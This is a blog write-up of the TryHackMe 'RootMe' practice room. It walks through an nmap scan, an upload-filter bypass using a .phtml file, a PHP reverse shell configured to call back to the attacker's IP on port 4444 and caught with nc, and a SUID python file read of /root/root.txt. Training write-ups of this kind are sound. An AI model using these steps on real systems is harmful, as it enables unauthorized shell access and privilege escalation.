 ```yaml
---
tagline: rootme
title: THM | RootMe 
description: Another THM Privilege Escalation Machine 🔓
banner: /blog/rootmebanner.jpeg/
banner_alt: Root Me Banner (if u find this, send 4533454352234 to me in general to get a pinned message)
date: '2024-02-28'
---
```


## Nmap Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.102.215
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 23:18 EST
Nmap scan report for 10.10.102.215
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds
```

- We know that ports 22 & 80 are open, 22 is running ssh, and 80 is running http with *Apache 2.4.29*.

## Dirsearch

- While the room advises us to utilize *Gobuster*, I will instead use *Dirsearch*.

![Image showing the results of dirsearch](/blog/rootmepics/dirsearch.png 'Fig.1')

- The only hidden directory here is */panel/*

## Obtaining the User Flag

- When accessing */panel/*, we are greeted with a upload panel

![Image showing the upload panel](/blog/rootmepics/uploadpanel.png 'Fig.2')

- We might need to find or create a PHP script to upload. Looking at the hint proves us correct!

- I will be using [this PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) for my attack. Make sure to change lines 49 & 50 with your Desired port & IP also change 54 with your desired shell.

``` bash:Terminal
49 $ip = '10.2.121.184';  // CHANGE THIS
50 $port = 4444;       // CHANGE THIS
···
54 $shell = 'uname -a; w; id; /bin/bash -i';
```

- My first method of bypassing the php filter did not work (it was *filename*.png.php) and I was greeted with this.

![Image showing the upload panel angry at me](/blog/rootmepics/phpuploaddenied.png 'Fig.3')

- My next attempt was a .phtml and it uploaded! Make sure to go to */uploads* and click on the PHP script to run. AND I HAVE ACCESS!!!!

```bash:Terminal
# Note: Before I modified the script to use bash, I used sh
┌──(vipin㉿vipin)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.121.184] from (UNKNOWN) [10.10.102.215] 48754
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:09:16 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
cat /var/www/user.txt
THM{XXXXXXXXXXXX}
```

- Time to nap nap😴, let me finish this tmrw!

## Getting The Root Flag

- I started by running the command in the hint, with that there were only a select few that were unusual with */usr/bin/python* being one.

- Using [gtfobins file read exploit](https://gtfobins.github.io/gtfobins/python/#file-read) for python we get this.

```bash:Terminal
www-data@rootme:/$ python -c 'print(open("/root/root.txt").read())' 
python -c 'print(open("/root/root.txt").read())'
THM{XXXXXXXXXXXXXXXXXXX}
```

## Closure

Hope you enjoyed this writeup, I enjoyed it very much and found the [Python File read exploit]((https://gtfobins.github.io/gtfobins/python/#file-read)) fun. Feel free to check out more @ other writeups [here](https://www.vipinb.xyz/blog)! 

